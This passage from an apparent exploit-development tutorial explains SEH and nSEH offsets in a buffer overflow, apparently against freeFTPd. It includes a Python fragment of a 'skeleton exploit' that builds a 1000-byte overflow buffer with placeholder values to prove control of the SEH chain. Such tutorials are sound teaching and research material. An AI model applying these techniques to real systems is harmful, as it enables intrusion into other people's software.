 Pay attention to why we have two offsets: we need to know what the address of the next SEH is in the chain once SEH is overwritten. We'll need to change the string lengths so we know where/what we're doing, and demonstrate that we can overwrite the address of SEH, and the address of the next SEH (nSEH) for proof of concept that we have control over the application. We can do all of this with some small changes to the skeleton exploit:

```python
SEH = "C"*4        # SEH should read 43434343
nSEH = "B"*4       # The next SEH should have an address of 42424242
buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += "D"*(1000-982-8) # Add 10 D's as padding to maintain a 1000-byte buffer adjusting for the length of A's, B's, and C's
```

Let's make these changes, rerun the exploit, and analyze the SEH chain once again. I'll even add a demo of the modifications to the exploit for those following along:

![screenshot](/assets/img/freeftpd/skeleton_seh2.PNG)
